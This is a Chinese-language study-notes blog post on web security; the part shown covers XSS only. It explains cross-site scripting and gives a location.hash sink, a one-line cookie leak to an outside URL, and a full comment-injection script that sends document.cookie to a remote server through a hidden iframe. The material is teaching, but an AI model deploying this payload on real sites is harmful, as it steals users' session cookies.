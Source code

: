 ﻿---
title: Web安全之XSS和CSRF
date: 2018-08-11 08:39:49
tags: 
    - web安全 
    - 前端
toc: true 

---

今天听了一节web安全的课程，对这个模块不是很熟悉，找了几篇博客总结一下知识点，方便以后复习，这也是我今天搭建博客之后的第一篇博客，鼓励自己多写多记吧!

# Web安全之XSS和CSRF
## XSS
### XSS定义

`跨站脚本攻击`，通过客户端脚本语言在一个论坛发帖(其他`input`类型的输入框也可以)中发布一段恶意的`JavaScript`代码就是脚本注入，如果这个代码内容有请求外部服务器，那么就叫`XSS！`

### XSS跨站脚本攻击 Cross site Scipting

主要原因是多数用户的输入没有被转义，而直接执行。 
XSS可以获取到用户cookie或隐私客户端信息。

### 比如通过location.hash
假设某个网站有一段脚本

```javascript
$("#box").html(location.hash.replace('#',''));
```

攻击者看到伪造URL

```javascript
location.href = "http://a.com?"+document.cookie;获取用户cookie!
```

也就是说**它利用了网站的某个漏洞，然后把脚本注入该网页**，让其他登录的用户登录后就会把该用户的信息获取到并发送给一个恶意的服务器。把压缩后的url发给某个登录的用户
### 一个网页的评论有漏洞(没有转义)

```javascript
<script type="text/javascript">
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
</script> 
```
